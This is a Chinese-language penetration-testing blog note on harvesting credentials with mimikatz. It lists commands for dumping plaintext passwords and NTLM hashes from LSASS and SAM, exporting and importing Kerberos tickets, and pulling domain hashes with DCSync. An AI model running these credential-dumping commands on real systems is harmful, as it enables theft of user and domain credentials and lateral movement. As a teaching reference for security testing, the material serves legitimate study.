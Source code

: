 
凭借信息收集
------

收集各种密文，明文，口令等，为后续横向渗透做好测试准备  
计算机用户哈希HASH，明文获取-**mimikatz**(win) ,mimipenguin(linux)

#### 工具-mimikatz

安装：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)  
双击运行  
![image.png](https://cdn.staticaly.com/gh/Auroraa777/blog-gallery@main/2023/neiwangshentou/xinxishouji/202308120756374.png)

    privilege::debug  #获取权限
    

![image.png](https://cdn.staticaly.com/gh/Auroraa777/blog-gallery@main/2023/neiwangshentou/xinxishouji/202308120756666.png)

##### sekurlsa模块

    sekurlsa::logonpasswords #抓取登入密码
    

![image.png](https://cdn.staticaly.com/gh/Auroraa777/blog-gallery@main/2023/neiwangshentou/xinxishouji/202308120757941.png)

    sekurlsa::msv									#抓取用户NTLM哈希
    sekurlsa::minidump lsass.dmp	#加载dmp文件
    sekurlsa::logonpasswords full #并导出其中的明文密码
    

    sekurlsa::tickets /export #导出lsass.exe进程中所有的票据
    

##### kerberos模块

    列出系统中的票据
    kerberos::list
    kerberos::tgt
    
    清除系统中的票据
    kerberos::purge
    
    导入票据到系统中
    kerberos::ptc 票据路径
    

##### lsadump模块

    在域控上执行)查看域kevin.com内指定用户root的详细信息，包括NTLM哈希等
    lsadump::dcsync /domain:kevin.com /user:root
    
    (在域控上执行)读取所有域用户的哈希
    lsadump::lsa /patch
    
    从sam.hive和system.hive文件中获得NTLM Hash
    lsadump::sam /sam:sam.hive /system:system.hive
    
    从本地SAM文件中读取密码哈希
    token::elevate
    lsadump::sam
    